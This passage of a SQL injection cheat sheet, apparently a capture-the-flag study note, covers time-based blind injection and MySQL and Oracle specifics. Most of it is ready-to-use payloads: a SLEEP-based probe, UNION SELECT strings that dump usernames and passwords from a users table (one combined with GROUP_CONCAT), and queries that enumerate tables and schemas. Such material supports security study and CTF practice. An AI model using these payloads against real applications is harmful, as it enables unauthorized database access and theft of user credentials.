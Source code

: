 This uses time delays to infer data:

```sql
' AND SLEEP(5) -- 
```

If the application delays for 5 seconds, you know the query executed successfully.

---

## **2. MySQL Specific SQL Injection**

### **2.1 Retrieving Database Information**

MySQL allows you to retrieve database information using the `INFORMATION_SCHEMA` tables:

```sql
SELECT DATABASE();  -- Get current database name
SHOW TABLES;  -- Get list of tables
SHOW COLUMNS FROM table_name;  -- Get columns of a table
```

### **2.2 Dumping the Flag**
To dump all data from a table (e.g., `users` table):
```sql
' UNION SELECT null, username, password FROM users --
```

### **2.3 MySQL Specific Functions**
- `@@version` – Get MySQL version.
- `GROUP_CONCAT()` – Combine multiple row values into a single string:
```sql
' UNION SELECT GROUP_CONCAT(username, ':', password) FROM users --
```

---

## **3. Oracle Specific SQL Injection**

### **3.1 Retrieving Database Information**

In Oracle, `ALL_TABLES` and `USER_TABLES` can list tables:

```sql
SELECT table_name FROM all_tables;  -- List all tables
SELECT * FROM user_tables;  -- List tables for the current user
```

### **3.2 Oracle Functions**

- `USER` – Get the current database user.

- `DBMS_METADATA.GET_DDL` – Get table DDL (schema definitions).
```sql
SELECT DBMS_METADATA.GET_DDL('TABLE', 'table_name') FROM dual;
```
